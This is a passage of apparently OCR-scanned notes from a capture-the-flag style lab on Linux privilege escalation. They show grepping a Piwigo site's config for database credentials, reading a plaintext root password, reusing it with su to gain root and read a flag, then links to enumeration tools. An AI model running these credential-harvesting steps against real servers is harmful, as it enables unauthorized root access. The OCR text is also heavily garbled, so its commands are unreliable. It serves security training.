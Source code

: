  

    Open files which might leak some info. Here db_user is taken. 

 
student@attackdefense:/var/www/html$ greo -nr ”db_user” local/ confie/ 'db_user'] 'rooť $pwg_db_link pwg_db_connect($conf[ upgrade_feed.php:63: $pwg_db_link pwg_db_connect($conf[ 'db_hosť], i.php:412: admin/inc1ude/functions_upgrade.php:322: $pwg_db_link $conf['db_user'], 'db_hosť], $conf['db_user'], pwg_db_connect($conf[ 'db_hosť], $conf[ 'db u $ conf[ 'db_passworď], ser'], .$dbuser.'\ $pwg_db_link pwg_db_connect($conf[ 'db_hosť], include/ common.inc.php:115: student@attackdefense:/var/www/html$ cat local/ config/database.inc.php <?php $conf[ $ conf[ $ conf[ $ conf[ $ conf[ 'dblayer'] 'db_base'] 'mysqľ 'piwigo'; 'rooť d _ passworď] 'w31cem3teadIabs' 'd b host $ prefixe Table 'localhosť 'piwigo define('PHPWG INS TAL LED' true); define('PWG CHARSET', define('DB CHARSET', define('DB COL LATE' 'ut f-8'); 'ut f 8') ; ? > student@attackdefense:/var/www/html$

 

    Login using the password 

$ conf [ 'db _ password'] 'w31cem3teadIabs' $ conf ['db _ host'] 'local host' $ prefixeTab1e — 'piwigo define('PHPWG INSTALLED' true); define('PWG CHARSET', define('DB CHARSET', define('DB COLLATE' I); ? > student@attackdefense:/var/www/html$ Password: root@attackdefense:/var/www/html# c la' su
root@attackdefense:/var/www/html# whoami root root@attackdefense:/var/www/html# cd \ cd root bash: cd: such file or directory root: No cd / root Is flag cat flag 760a582ebd219e2efb6dec173d416723

 

WE GOT ROOT ACCESS AS SHARED SERVER 

 

 

METHOD 3 : USING LINPEAS OR LINENUM 

 

LinPEAS : https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS 

LinENUM : https://github.com/rebootuser/LinEnum 

 

Check for CVE, root permissions, username, shared files, kernel version of OS and many critical areas. 



#Imp Links

Linpeas : PEASS-ng/linPEAS at master · carlospolop/PEASS-ng · GitHub  

 

LinEnum : GitHub - rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks  

 

GTFOBins : GTFOBins  

 

Priv Esc : Linux Privilege Escalation - HackTricks  

 

Payload All the things : GitHub - swisskyrepo/PayloadsAllTheThings: A list of useful payloads and bypass for Web Application Security and Pentest/CTF  
